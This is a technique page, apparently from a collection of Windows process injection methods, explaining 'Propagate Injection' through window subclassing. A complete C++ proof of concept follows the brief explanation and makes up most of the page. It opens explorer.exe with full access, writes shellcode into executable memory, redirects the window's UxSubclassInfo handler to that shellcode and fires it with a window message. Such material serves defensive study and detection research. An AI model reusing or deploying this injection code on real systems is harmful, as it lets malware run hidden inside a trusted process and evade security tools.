 # Propagate Injection

This technique also abuses internal Windows functionality. In this case the technique uses Window Subclassing. When an application creates a window on the system, some information about this specific window are stored. If the system needs to send a message to this window, it makes use of this specific information to correctly target the message. Subclassing allows the interception of this specific message in order to modify or monitor the behavior of the window.

When a window is subclassed, new properties are added (UxSubclassInfo, CC32SubclassInfo); internal structure will then use these properties. Basically, the technique will inject a buffer containing the shellcode into the target process, then modify the structure used by the specific properties to point to the payload. Finally, modify the property of the window. When a message is sent to the window the shellcode is executed.

```cpp
define UNICODE
#include <windows.h>

#pragma comment(lib, "user32.lib")
#pragma comment(lib, "shell32.lib")
#pragma comment(lib, "comctl32.lib")

#include <stdio.h>

typedef LRESULT (CALLBACK *SUBCLASSPROC)(
   HWND      hWnd,
   UINT      uMsg,
   WPARAM    wParam,
   LPARAM    lParam,
   UINT_PTR  uIdSubclass,
   DWORD_PTR dwRefData);

typedef struct _SUBCLASS_CALL {
  SUBCLASSPROC pfnSubclass;    // subclass procedure
  WPARAM       uIdSubclass;    // unique subclass identifier
  DWORD_PTR    dwRefData;      // optional ref data
} SUBCLASS_CALL, PSUBCLASS_CALL;

typedef struct _SUBCLASS_FRAME {
  UINT                    uCallIndex;   // index of next callback to call
  UINT                    uDeepestCall; // deepest uCallIndex on stack
  struct _SUBCLASS_FRAME  *pFramePrev;  // previous subclass frame pointer
  struct _SUBCLASS_HEADER *pHeader;     // header associated with this frame
} SUBCLASS_FRAME, PSUBCLASS_FRAME;

typedef struct _SUBCLASS_HEADER {
  UINT           uRefs;        // subclass count
  UINT           uAlloc;       // allocated subclass call nodes
  UINT           uCleanup;     // index of call node to clean up
  DWORD          dwThreadId;   // thread id of window we are hooking
  SUBCLASS_FRAME *pFrameCur;   // current subclass frame pointer
  SUBCLASS_CALL  CallArray[1]; // base of packed call node array
} SUBCLASS_HEADER, *PSUBCLASS_HEADER;

DWORD readpic(PWCHAR path, LPVOID *pic){
    HANDLE hf;
    DWORD  len,rd=0;

    // 1. open the file
    hf=CreateFile(path, GENERIC_READ, 0, 0,
      OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);

    if(hf!=INVALID_HANDLE_VALUE){
      // get file size
      len=GetFileSize(hf, 0);
      // allocate memory
      *pic=malloc(len + 16);
      // read file contents into memory
      ReadFile(hf, *pic, len, &rd, 0);
      CloseHandle(hf);
    }
    return rd;
}

VOID propagate(LPVOID payload, DWORD payloadSize) {
    HANDLE          hp, p;
    DWORD           id;
    HWND            pwh, cwh;
    SUBCLASS_HEADER sh;
    LPVOID          psh, pfnSubclass;
    SIZE_T          rd,wr;

    // 1. Obtain the parent window handle
    pwh = FindWindow(L"Progman", NULL);

    // 2. Obtain the child window handle
    cwh = FindWindowEx(pwh, NULL, L"SHELLDLL_DefView", NULL);

    // 3. Obtain the handle of subclass header
    p = GetProp(cwh, L"UxSubclassInfo");

    // GetProcessHandleFromHwnd
    // 4. Obtain the process id for the explorer.exe
    GetWindowThreadProcessId(cwh, &id);

    // 5. Open explorer.exe
    hp = OpenProcess(PROCESS_ALL_ACCESS, FALSE, id);

    // 6. Read the contents of current subclass header
    ReadProcessMemory(hp, (LPVOID)p, &sh, sizeof(sh), &rd);

    // 7. Allocate RW memory for a new subclass header
    psh = VirtualAllocEx(hp, NULL, sizeof(sh),
        MEM_RESERVE | MEM_COMMIT, PAGE_READWRITE);

    // 8. Allocate RWX memory for the payload
    pfnSubclass = VirtualAllocEx(hp, NULL, payloadSize,
        MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE);

    // 9. Write the payload to memory
    WriteProcessMemory(hp, pfnSubclass,
        payload, payloadSize, &wr);

    // 10. Set the pfnSubclass field to payload address, and write
    //    back to process in new area of memory
    sh.CallArray[0].pfnSubclass = (SUBCLASSPROC)pfnSubclass;
    WriteProcessMemory(hp, psh, &sh, sizeof(sh), &wr);

    // 11. update the subclass procedure with SetProp
    SetProp(cwh, L"UxSubclassInfo", psh);

    // 12. Trigger the payload via a windows message
    PostMessage(cwh, WM_CLOSE, 0, 0);

    // 13. Restore original subclass header
    SetProp(cwh, L"UxSubclassInfo", p);

    // 14. free memory and close handles
    VirtualFreeEx(hp, psh, 0,  MEM_RELEASE);
    VirtualFreeEx(hp, pfnSubclass, 0,  MEM_RELEASE);

    CloseHandle(hp);
}+
```
